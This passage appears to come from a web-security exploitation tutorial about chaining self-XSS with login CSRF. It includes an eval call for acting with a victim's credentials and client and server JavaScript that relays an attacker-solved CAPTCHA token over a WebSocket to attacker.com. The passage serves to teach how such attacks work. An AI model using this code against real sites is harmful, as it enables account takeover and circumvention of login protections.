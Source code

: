 As we can see, we successfully got both cookie values (attacker's and victim's). To execute actions within the frame with the victim's credentials, simply call `window.top[1].eval('your code')`

# SELF-XSS + CSRF on Login with Captcha

Sometimes you might encounter a situation where the login form lacks CSRF protection but has a CAPTCHA. This situation doesn't significantly complicate the exploit. The key point here is that CAPTCHA is not a CSRF protection mechanism, as there's no guarantee that the CAPTCHA was solved on the same device where it was submitted.

In such cases, you can simply add a CAPTCHA retrieval step to the attack from the previous section. Here's a simple client-side implementation:
```js
const ws = new WebSocket('ws://attacker.com:3004');
ws.onopen = () => {
  ws.send(JSON.stringify({ type: 'visited' }));
};

ws.onmessage = (event) => {
  const data = JSON.parse(event.data);
  if (data.type === 'captcha') {
    captchaInput.value = data.captchaToken;
  }
};
```

And on the server side:
```js
const WebSocket = require('ws');
const readline = require('readline');

const wss = new WebSocket.Server({ port: 3004 });

const rl = readline.createInterface({
    input: process.stdin,
    output: process.stdout
});

console.log('WebSocket server is running on port 3004');
wss.on('connection', (ws) => {
    console.log('New client connected');
    ws.on('message', (message) => {
        const data = JSON.parse(message);
        if (data.type === 'visited') {
            console.log('Client sent visited message');
            rl.question('Enter captcha token: ', (token) => {
                ws.send(JSON.stringify({
                    type: 'captcha',
                    captchaToken: token
                }));
            });
        }
    });

    ws.on('close', () => {
        console.log('Client disconnected');
    });
}); 
```

